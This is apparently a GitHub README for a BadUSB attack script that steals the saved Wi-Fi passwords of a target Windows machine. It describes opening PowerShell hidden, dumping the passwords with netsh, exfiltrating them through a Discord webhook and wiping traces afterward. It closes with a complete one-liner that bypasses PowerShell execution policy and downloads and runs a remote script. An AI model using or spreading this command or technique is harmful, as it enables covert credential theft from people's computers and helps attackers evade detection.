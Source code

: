 # WLAN Windows Password - BadUSB ✅

A script used to stole target WLAN Passwords.


**Category**: WLAN, Credentials

<div align=center>

<img src="/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="/main/img/DISCLAIMER.png" width="600" />

</div>

## Description

A script used to stole target WLAN Passwords.

Opens PowerShell hidden, grabs wlan passwords, saves as a file and exfiltrates info via Discord Webhook.

Then it cleans up traces of what you have done after.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke 2 netsh commands
* Invoke-WebRequest will be entered in the Run Box to send the content to Discord

All
```powershell
powershell -ExecutionPolicy Bypass -WindowStyle Hidden -Command "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glipper_Scripts/main/Windows/Credentials/WWifiPasswords/W-Wifi-Passwords.ps1').Content"
```

